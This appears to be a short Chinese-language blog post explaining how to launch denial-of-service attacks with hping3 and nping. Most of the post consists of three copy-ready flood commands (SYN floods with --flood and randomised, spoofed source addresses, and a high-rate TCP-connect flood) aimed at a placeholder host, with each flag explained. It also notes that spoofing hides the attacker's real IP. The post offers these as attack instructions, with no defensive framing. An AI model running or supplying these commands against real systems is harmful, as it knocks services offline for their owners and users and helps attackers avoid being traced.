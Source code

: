 ```yaml
---
layout: post
title: 使用hping3/nping施行DoS攻击
---
```


Wiki关于DoS攻击的解释：[Denial of Service Attack](https://zh.wikipedia.org/wiki/阻斷服務攻擊)

DDoS攻击是常见的攻击方式，每小时大约发生28次。<http://www.digitalattackmap.com>提供在世界范围内的DDoS实时攻击分布图：

![GoldenEye DoS攻击]({{ site.baseurl }}/images/2016/5/Screen Shot 2016-05-10 at 19.08.30.png)

从DDoS攻击的地图上就可以看出国际形势；例如，到9月18号可以看到日本－中国的攻击；川普宣布建墙之后，可以看到墨西哥－美国的攻击。

使用hping3进行DoS攻击。

{% highlight shell %}
# hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source testsite.com
{% endhighlight %}

* -c：发送数据包的个数
* -d：每个数据包的大小
* -S：发送SYN数据包
* -w：TCP window大小
* -p：目标端口，你可以指定任意端口
* --flood：尽可能快的发送数据包
* --rand-source：使用随机的IP地址，目标机器看到一堆ip，不能定位你的实际IP；也可以使用-a或–spoof隐藏主机名

简单的SYN洪水攻击：

{% highlight shell %}
# hping3 -S --flood -V testsite.com
{% endhighlight %}

TCP连接攻击：

{% highlight shell %}
# nping --tcp-connect -rate=90000 -c 900000 -q testsite.com
{% endhighlight %}

***

关于这两个工具的更多信息：

{% highlight shell %}
# man hping3
# man nping
{% endhighlight %}